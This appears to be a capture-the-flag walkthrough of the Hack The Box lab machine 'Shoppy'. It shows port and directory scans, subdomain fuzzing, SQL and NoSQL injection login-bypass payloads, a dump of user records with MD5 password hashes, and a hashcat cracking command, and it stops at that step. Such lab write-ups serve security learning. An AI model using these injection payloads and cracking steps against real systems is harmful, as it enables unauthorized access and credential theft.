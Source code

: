 # Shoppy

### Machine IP
```
10.10.11.180
```

### nmap scan
Scanning for open ports and services
```
nmap -sC -sV -Pn -T4 10.10.11.180
```

Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title:             Shoppy Wait Page        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports 22 (ssh) and 80 (http) are open!


### gobuster scan
Scanning for subdirectories
```
gobuster dir -w wordlists/dirbuster/directory-list-2.3-small.txt -u http://shoppy.htb
```

Results:
```
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
```

### ffuf scan
Scanning for subdomains

```
sudo ffuf -c -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" --fc 301
```

Found one subdomain

```
mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 219ms]
```

### mattermost.shoppy.htb

Adding to /etc/hosts in vim:
```
10.10.11.180	shoppy.htb mattermost.shoppy.htb
```

Seems to be another login form...

### sqlmap
Scanning the login page:
```
sqlmap -r post.txt -p username --level 5 --risk 3 --threads 10
```

Connection times out...ineffective

### Manual sqli

Attempting a login with:
```
Username: admin' or 1=1 --
Password: admin
```

The username portion would resolve to:

```
SELECT * FROM users WHERE username = 'admin' OR 1=1-- ' 
```

...in the case of injection. The password really doesnt matter.


Page taking a long time to load...
Results in a 504 Gateway timeout

Let's try NoSQLi

### Manual NoSQLi

Attempting a login with:
```
Username: admin'||'1==1
Password: cheese
```

The username portion would resolve to:

```
INCOMPLETE
```

...in the case of injection. The password really doesnt matter.

RESULT! We are logged in!


### Exploring the Admin page
Weve been redirected to:
```
http://shoppy.htb/admin
```

Here, we can search for users. So let's search for "admin'||'1==1".

We get an exported json file with the information:
```
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]
```

The passwords are stored as MD5 hashes...let crack them!

### Hashcat

Trying to crack the following hashes with hashcat...
```
23c6877d9e2b564ef8b32c3a23de27b2
6ebcea65320589ca4f2f1ce039975995
```

Command:

```
hashcat -m 0 -a 0 -o cracked_hashes hashes /usr/share/wordlists/rockyou.txt
```

`-m`: type of hash (0 represents MD5)
`-a`: type of attack (0 represents dictionary attack)

